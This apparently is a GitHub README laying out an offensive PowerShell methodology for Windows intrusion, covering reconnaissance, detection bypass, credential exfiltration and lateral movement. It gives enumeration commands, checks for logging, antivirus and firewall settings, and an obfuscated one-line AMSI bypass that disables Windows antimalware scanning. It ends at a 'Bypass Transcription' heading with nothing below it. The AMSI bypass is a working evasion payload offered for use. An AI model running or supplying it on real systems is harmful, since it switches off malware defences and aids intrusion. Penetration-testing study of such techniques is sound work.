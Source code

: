 ## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&center=FALSO&vCenter=FALSO&repeat=verdadero&random=FALSO&width=435&lines=Metodology)

- Initial Reconnaissance
- Detection and Policy Bypass
- Initial Enumeration & Hunting
- Local Privilege Escalation (if applicable)
- Credential Exfiltration
- Full Enumeration
- Lateral Movement

## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&center=FALSO&vCenter=FALSO&repeat=verdadero&random=FALSO&width=435&lines=Initial+Reconnaissance)

```powershell
whoami
whoami /priv
(Get-WmiObject Win32_ComputerSystem).Domain  
$env:username;$env:computername  
Get-LocalGroupMember -Group "administrators"
```

## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&width=435&lines=Detection+and+Policy+Bypass)

```powershell
#Transcription
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\Transcription"
#Script Block logging
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" 
#AV
Get-MpPreference | Select-Object DisableIOAVProtection, DisableRealtimeMonitoring  
#Firewall
netsh advfirewall show allprofiles
#Constrained Language Mode
$ExecutionContext.SessionState.LanguageMode
```
### Bypass AMSI

```Powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### Bypass Transcription
